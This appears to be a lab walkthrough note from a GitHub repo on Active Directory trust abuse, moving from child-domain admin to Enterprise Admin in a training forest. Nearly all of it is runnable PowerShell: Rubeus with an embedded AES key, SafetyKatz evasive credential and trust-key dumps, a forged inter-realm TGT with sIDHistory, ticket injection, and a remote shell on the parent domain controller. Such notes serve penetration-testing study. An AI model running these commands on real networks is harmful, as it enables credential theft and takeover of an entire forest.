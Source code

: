 **Domain Admin privileges are required for the following**

Ultimate goal is to extract **trust key** from `Child-DC` and forge a inter-realm ticket that has the sIDHistory set to `509` so we can impersonate a `Enterprise Admin` and access resources from the Parent Domain

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Extract trust key - '`mcorp$` is the trust account
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge inter-realm TGT
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:f03c20c4974d6f6426f4f3c9b4487549 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                 |
| ------------------- | ----------------------------------------------------------- |
| silver              | Name of the module                                          |
| /rc4                | NTLM hash of the trust key                                  |
| /sid                | SID of the current domain                                   |
| /sids               | SID of the **enterprise admins** group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC         |
| /user:Administrator | Username for which the TGT is generated                     |
| /nowrap             | No newlines in the output                                   |

Use forged inter-realm ticket
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

Access Parent Domain DC
```powershell
winrs -r:mcorp-dc.MONEYCORP.LOCAL cmd
```

```powershell

```